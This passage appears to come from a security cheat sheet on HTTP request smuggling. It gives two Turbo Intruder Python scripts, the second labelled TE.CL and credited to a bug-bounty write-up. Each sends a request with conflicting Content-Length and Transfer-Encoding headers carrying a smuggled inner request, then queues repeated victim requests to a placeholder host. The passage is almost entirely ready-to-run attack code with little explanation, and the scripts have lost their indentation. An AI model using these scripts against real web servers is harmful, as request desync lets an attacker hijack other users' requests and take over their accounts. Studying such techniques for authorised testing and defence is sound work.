 ```python
GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL

From: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## ツール